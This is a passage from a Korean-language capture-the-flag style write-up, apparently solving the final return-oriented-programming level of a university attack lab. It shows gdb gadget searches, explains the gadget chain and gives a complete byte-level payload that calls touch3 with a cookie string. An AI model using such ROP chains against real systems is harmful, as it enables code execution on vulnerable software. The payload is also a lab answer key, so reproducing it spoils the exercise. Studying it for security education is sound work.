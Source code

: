 `ecx`에 값을 쓰는 가젯으로 `mov %edx,%ecx`를 찾을 수 있었다.  이 가젯의 뒤에는 `and    %al,%al`가 있지만, 이것은 사실상 아무것도 수행하지 않기 때문에 functional nop로 생각할 수 있다. 이제,  `rdx`에 값을 쓰는 가젯을 찾아보자.

##### Find Gadget to Set `edx`

```r
gdb-peda$ ropsearch "mov ?, ?" 0x401a53 0x401b6c
Searching for ROP gadget: 'mov ?, ?' in range: 0x401a53 - 0x401b6c
... (생략)
0x00401aa3 : (b'89c29090c3')	mov %eax,%edx; nop; nop; retq
... (생략)
```

`edx`에 값을 쓰는 가젯으로 `mov %eax,%edx`를 찾을 수 있었다. 이때, 우리는 앞서 Level2에서 사용한 가젯인 `pop %rax` (0x00401a84) 를 이용할 것이다. 그러면 우리는, 스택에 임의의 값을 쓴 다음에 `pop %rax`를 통해 해당 값을 `rax`에 적재한 후, 이것을 `eax`에 복사해서 이 문제를 해결할 수 있을 것이다!

#### Compose Gadgets

우선 우리가 원하는 만큼의 오프셋을 스택에 적고, `pop %rax ` 가젯을 이용하여 `rax`에 그를 적재할 것이다. 이때, 오프셋은 우리가 rop할 코드의 길이에 따라 달라질 것이기 때문에 아래 Solution 파트에서 기입할 것이다. 이후,   `mov %eax,%edx` 가젯과 `mov %edx,%ecx` 가젯 그리고 `mov %ecx,%esi`을 차례로 이용하여 오프셋을 `esi`에 적재할 것이다. 이제 `mov %rsp,%rax` 가젯을 이용하여 `rsp`의 값을 따낸 다음 `mov %rax,%rdi` 를 통해 `rdi`에 `rsp`의 값을 담을 것이다.  이제 이 상태에서 ` add_xy` 를 이용하면 `rdi+rsi`, 즉 `rsp`의 값과 우리가 적은 임의의 오프셋의 합이 `rax`에 담길 것이다. 이 상황에서 *Level2*에서 찾은 `mov %rax,%rdi`  가젯을 이용하면 우리가 임의로 쓴 주소를 `rdi`에 담을 수 있고, 이후 `touch3`의 주소를 적어서 우리가 원하는 임의의 주소를 인자로 `touch3`을 호출할 수 있다.



### Solution

#### Check Address of `touch3`

```r
gdb-peda$ p touch3
$7 = {void (char *)} 0x4019b6 <touch3>
```

#### Compose

|             | hex                     | Description                         |
| ----------: | ----------------------- | ----------------------------------- |
|       <-24> | 00 00 00 00 00 00 00 00 | buffer for `buf`                    |
|       <-16> | 00 00 00 00 00 00 00 00 | buffer for `buf`                    |
|        <-8> | 00 00 00 00 00 00 00 00 | buffer for `buf`                    |
| rsp => <+0> | 84 1a 40 00 00 00 00 00 | Gadget `pop %rax ` (0x00401a84)     |
|        <+8> | 20 00 00 00 00 00 00 00 | Offset (0x20)                       |
|       <+16> | a3 1a 40 00 00 00 00 00 | Gadget `mov %eax,%edx (0x00401aa3)` |
|       <+24> | 9d 1a 40 00 00 00 00 00 | Gadget `mov %edx,%ecx (0x00401a9d)` |
|       <+32> | ec 1a 40 00 00 00 00 00 | Gadget `mov %ecx,%esi (0x00401aec)` |
|       <+40> | fa 1a 40 00 00 00 00 00 | Gadget `mov %rsp,%rax (0x00401afa)` |
|       <+48> | 70 1a 40 00 00 00 00 00 | Gadget `mov %rax,%rdi (0x00401a70)` |
|       <+56> | 8f 1a 40 00 00 00 00 00 | ` add_xy (0x401a8f)`                |
|       <+64> | 70 1a 40 00 00 00 00 00 | Gadget `mov %rax,%rdi (0x00401a70)` |
|       <+72> | b6 19 40 00 00 00 00 00 | Address of `touch3` 0x4019b6        |
|       <+80> | 37 38 39 36 30 31 37 33 | Cookie 문자열 "78960173"            |
|       <+88> | 00                      | Null byte                           |
